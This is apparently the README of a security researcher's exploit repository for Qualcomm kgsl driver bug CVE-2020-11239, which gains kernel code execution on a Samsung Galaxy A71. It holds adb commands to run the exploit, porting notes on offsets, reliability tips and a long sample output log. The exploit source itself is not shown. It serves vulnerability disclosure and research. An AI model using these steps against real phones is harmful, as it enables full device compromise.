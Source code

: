 ## Exploit for Qualcomm CVE-2020-11239

The write up can be found [here](https://securitylab.github.com/research/one_day_short_of_a_fullchain_android). This is a bug in the Qualcomm kgsl driver I reported in July 2020. The GitHub Advisory can be found [here](https://securitylab.github.com/advisories/GHSL-2020-375-kgsl). The bug can be used to gain arbitrary kernel code execution, read and write from the untrusted app domain.

The exploit is tested on Samsung Galaxy A71 with firmware version A715FXXUATJ2, Baseband A715FXXU3ATI5 and Kernel version 4.14.117-19828683. The offsets in the exploit refers to that version of the firmware. For different models of phones, the macro `DMA_ADDRESS`, which indicates the address of the SWIOTLB buffer, will also need to be changed.

The exploit is reasonably reliable, although it does need to wait a few minutes after start up, after the kernel activities settled down before running.

The most likely cause of failure is when it failed to locate the file structs after 5 retries. In this case there is no adverse effect and the phone will not crash. However, running the exploit immediately is unlikely to succeed and it usually requires waiting for a bit or doing something else to reorganize the heap before running it again.

To test, cross compile the file `kgsl_exploit_slab_a71.c` and then execute with `adb`:

```
adb push kgsl_exploit_slab_a71 /data/local/tmp
adb shell
a71:/ $ /data/local/tmp/kgsl_exploit_slab_a71
```

If succeeded, it will run a eBPF program to write and read to an address and confirm the successful read and write:

```
rpc opened
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 8 reallocation threads ready!
micros_used: 19432
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] Read/Write operation succeeded
[+] syncing bounce buffers
done read 0
[+] Found null_fops at 2 region offset 32 ffffff80099d9788
null file addr: ffffffc12a993058
[+] ion region location: ffffffc12a992000
[+] bpf addr: ffffff8008317088
overwrite fops ffffff80099d9788
overwrite fops 0
[-] Failed to find dma_buf_fops
[+] syncing bounce buffers
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 8 reallocation threads ready!
micros_used: 19938
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] Read/Write operation succeeded
running bpf program
bpf_data 0x3039
[+] successful read
```
